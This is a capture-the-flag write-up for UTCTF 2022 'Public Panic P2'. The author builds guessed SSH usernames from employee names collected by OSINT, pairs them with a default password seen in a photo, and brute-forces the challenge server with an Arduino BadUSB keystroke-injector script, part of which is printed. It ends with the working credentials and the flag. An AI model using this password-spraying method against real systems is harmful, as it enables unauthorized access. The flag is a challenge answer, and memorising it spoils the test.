

# UTCTF 2022 Public Panic P2(Category: Misc)
The challenge is the following,

 


We are told that we should use what we found in [Public Panic P1](https://github.com/LambdaMamba/CTFwriteups/tree/main/UTCTF_2022/misc/public_panic) for this challenge. 

In [Public Panic P1](https://github.com/LambdaMamba/CTFwriteups/tree/main/UTCTF_2022/misc/public_panic), we found a picture of the flag on the whiteboard.

 

If we look closely, we can also see what seems to be a default password, which is:

`defaultpw5678!` 

 


Now our task is to get onto their system using,

`ssh xxx@misc2.utctf.live -p 8622`

Since we have the password, we will need to find an account that uses this default password.

From the previous challenge, I gathered all the following employee information of Sagishi Tech:
- Wade Coldwater (Marketing): https://twitter.com/WadeColdwater
- Debby Uselton (Marketing): https://twitter.com/DebbyUselton
- Claude Castillo (Marketing): https://twitter.com/ClaudeCastill18
- Cliff Shackleford (Marketing): https://twitter.com/CliffShacklefo1
- Sidney Jaggers (Marketing): https://twitter.com/JaggersSidney
- Misty Booker (Marketing): https://twitter.com/MistyBooker99
- Craig Wallace (Chief Information Security Officer): https://twitter.com/CraigWa09526548
- Sherman Kern (CEO): https://twitter.com/kern_sherman
- Neil Cline (Product Manager): https://twitter.com/NeilCline9
- Britt Bryant (CTO): https://twitter.com/BrittBryant18
- Robyn Swanson (Accountant): https://twitter.com/RobynSwanson96


I looked all over their Twitter accounts, but couldn't find any tweets or pictures that could contain hints to their username. I've also tried their Twitter usernames, but that did not work. Therefore, I assumed that their account usernames have to do with their names.

I went to [Active Directory User Naming conventions](https://activedirectorypro.com/active-directory-user-naming-convention/), and saw the following,

 

So I assumed that the usernames conventions might be one of the following:

1. Complete first name plus last name
2. Initial of first name and complete last name
3. First three characters of the first name and first three of last name
4. Three random letters and three numbers

I felt that 4 could be ruled out because I couldn't find much information about the random letters and numbers using OSINT for the Sagishi Tech employees.

So I went ahead and constructed a list of the possible usernames for each of the Sagishi Tech members in [usernames.txt](./usernames.txt), which looks like the following:

```
wadecoldwater
wade.coldwater
wade_coldwater
wcoldwater
wadcol

debbyuselton
debby.uselton
debby_uselton
duselton
debuse


claudecastillo
claude.castillo
claude_castillo
ccastillo
clacas


cliffshackleford
cliff.shackleford
cliff_shackleford
cshackleford
clisha


sidneyjaggers
sidney.jaggers
sidney_jaggers
sjaggers
sidjag


mistybooker
misty.booker
misty_booker
mbooker
misboo

craigwallace
craig.wallace
craig_wallace
cwallace
crawal


shermankern
sherman.kern
sherman_kern
skern
sheker


neilcline
neil.cline
neil_cline
ncline
neicli


brittbryant
britt.bryant
britt_bryant
bbryant
bribry


robynswanson
robyn.swanson
robyn_swanson
rswanson
robswa
```

Now, we just need to `ssh xxx@misc2.utctf.live -p 8622` to test all the possible usernames. 
I didn't want to manually ssh all of these usernames, and I wasn't too familiar with tools that automates login attempts on the command line. Luckily, I had a [Arduino BadUSB Keystroke Injector I made some time ago](https://dev.to/lambdamamba/a-badusb-that-is-pretty-useful-making-a-keystroke-injector-in-arduino-that-can-crack-passwords-using-brute-force-3e77) next to me, so I decided to use that.
 
I wrote an Arduino program [brute_ssh.ino](./brute_ssh/brute_ssh.ino), which injects Keystrokes into the command line after turning on the switch. There will be a 5 second delay between each password attempt, and will try the passwords
 `defaultpw5678!`, `defaultpw5678`, and `5678!`. Also, there will be a 2 seconds delay between each username attempt. It will try all 3 passwords for each username in [usernames.txt](./usernames.txt).
A section of [brute_ssh.ino](./brute_ssh/brute_ssh.ino) looks like the following,

```
#include "Keyboard.h"

int switchPin = 9;
int switchstate = 0;

void setup() {
  Keyboard.begin();
  pinMode(switchPin, INPUT);
}

void loop() {
  switchstate = digitalRead(switchPin);
  //Start inputting into the CMD after turning the switch on
  if (switchstate == HIGH){
    Keyboard.println("ssh wadecoldwater@misc2.utctf.live -p 8622");
    delay(2000);
    Keyboard.println("defaultpw5678!");
    delay(5000);

    Keyboard.println("defaultpw5678");
    delay(5000);

    Keyboard.println("5678!");
    delay(5000);

    Keyboard.println("ssh wade.coldwater@misc2.utctf.live -p 8622");
    delay(2000);
    Keyboard.println("defaultpw5678!");
    delay(5000);

    Keyboard.println("defaultpw5678");
    delay(5000);

    Keyboard.println("5678!");
    delay(5000);


    Keyboard.println("ssh wade_coldwater@misc2.utctf.live -p 8622");
    delay(2000);
    Keyboard.println("defaultpw5678!");
    delay(5000);

    Keyboard.println("defaultpw5678");
    delay(5000);

    Keyboard.println("5678!");
    delay(5000);

    Keyboard.println("ssh wcoldwater@misc2.utctf.live -p 8622");
    delay(2000);
    Keyboard.println("defaultpw5678!");
    delay(5000);

    Keyboard.println("defaultpw5678");
    delay(5000);

    Keyboard.println("5678!");
    delay(5000);


    Keyboard.println("ssh wadcol@misc2.utctf.live -p 8622");
    delay(2000);
    Keyboard.println("defaultpw5678!");
    delay(5000);

    Keyboard.println("defaultpw5678");
    delay(5000);

    Keyboard.println("5678!");
    delay(5000);
    ...
```
(If anyone is interested in making a Arduino Keystroke Injector, please check out [my tutorial](https://dev.to/lambdamamba/a-badusb-that-isnt-so-bad-making-a-keystroke-injector-in-arduino-that-automates-gathertown-movements-41jm))

The following shows the sped up demo of the [Brute Force keystroke injector](https://github.com/LambdaMamba/KeystrokeInjection):


The [full video can be found here in my Youtube channel](https://youtu.be/C51PT2RJHn4).


I successfully logged into the server using the following credentials:

- Username: `cshackleford`
- Password: `defaultpw5678!`


And once I logged into the server, I did `ls`, and saw that there was a file named `flag.txt`. The contents were,

 

Therefore, the flag is:

`utflag{conventions_knowledge_for_the_win}`

